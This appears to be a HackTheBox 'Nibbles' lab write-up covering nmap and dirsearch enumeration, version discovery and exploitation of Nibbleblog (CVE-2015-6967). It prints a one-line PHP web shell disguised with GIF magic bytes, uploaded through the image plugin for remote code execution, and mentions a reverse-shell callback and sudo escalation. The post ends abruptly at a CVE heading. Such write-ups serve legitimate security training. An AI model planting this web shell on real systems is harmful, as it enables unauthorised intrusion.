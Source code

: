 ```yaml
---
title: Nibbles
author: siresire
date: 2024-02-26 18:10:00 +0800
categories: [Hackthebox, Linux, easy]
tags: [CVE,php]
render_with_liquid: false
---
```



# Enumerations 
## Nmap scan

```js
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Nibbles]
└─# nmap -vv -sV -A -oN nmap.scans 10.10.10.75 -T4 -p- | grep open 
Discovered open port 22/tcp on 10.10.10.75
Discovered open port 80/tcp on 10.10.10.75
22/tcp    open     ssh           syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http          syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

```
2 ports we open under 10,000 ports


Checking port 80 source code we had a hidden directory `/nibbleblog/` and the hidden directory had this web page 

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_1.png)

### Directory search 

```js
┌──(root㉿kali)-[/home/…/CTFs/HackTheBox/Nibbles/nibbleblog]
└─# dirsearch -u  http://10.10.10.75/nibbleblog --exclude-status 403,404    

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/sire/Documents/CTFs/HackTheBox/Nibbles/nibbleblog/reports/http_10.10.10.75/_nibbleblog_24-03-12_12-46-25.txt

Target: http://10.10.10.75/

[12:46:25] Starting: nibbleblog/
[12:46:49] 301 -  321B  - /nibbleblog/admin  ->  http://10.10.10.75/nibbleblog/admin/
[12:46:50] 200 -  606B  - /nibbleblog/admin.php
[12:46:50] 200 -  517B  - /nibbleblog/admin/
[12:46:51] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://10.10.10.75/nibbleblog/admin/js/tinymce/
[12:46:51] 200 -  564B  - /nibbleblog/admin/js/tinymce/
[12:47:14] 301 -  323B  - /nibbleblog/content  ->  http://10.10.10.75/nibbleblog/content/
[12:47:14] 200 -  485B  - /nibbleblog/content/
[12:47:14] 200 -  724B  - /nibbleblog/COPYRIGHT.txt
[12:47:29] 200 -   92B  - /nibbleblog/install.php
[12:47:29] 200 -   92B  - /nibbleblog/install.php?profile=default
[12:47:31] 301 -  325B  - /nibbleblog/languages  ->  http://10.10.10.75/nibbleblog/languages/
[12:47:32] 200 -   12KB - /nibbleblog/LICENSE.txt
[12:47:47] 200 -  694B  - /nibbleblog/plugins/
[12:47:47] 301 -  323B  - /nibbleblog/plugins  ->  http://10.10.10.75/nibbleblog/plugins/
[12:47:50] 200 -    5KB - /nibbleblog/README
[12:48:03] 301 -  322B  - /nibbleblog/themes  ->  http://10.10.10.75/nibbleblog/themes/
[12:48:03] 200 -  498B  - /nibbleblog/themes/
[12:48:04] 200 -  815B  - /nibbleblog/update.php

Task Completed

```

After performing a directory search found this login page 

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_2.png)

## Finding the Exploit 

In order to find the explorat , had to know the verison number of the web page
So I downloaded the source code of nibbleblog from [github](https://github.com/dignajar/nibbleblog)

performed a `grep` search on the admin directory and found the path to version number 

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_3.png)

checking on the browser, indeed got the version number


![Alt text](/assets/img/htb/OSCP/Nibbles/nl_4.png)


After googling I found this 

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_5.png)

## Exploiting

after logging in ,went to the plugin section,image and uploaded a simple php file with GIF magic bytes

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_6.png)

```js
GIF8;
<?php system($_GET['cmd']); ?>   
```

and we had a remote code execution

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_7.png)

set up a listener and we had a call back to my machine 

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_8.png)

## TO ROOT

after running `sudo -l ` there was a file that could be run with sudo privileges without password

![Alt text](/assets/img/htb/OSCP/Nibbles/nl_9.png)


## 🐞 CVE-2015-6967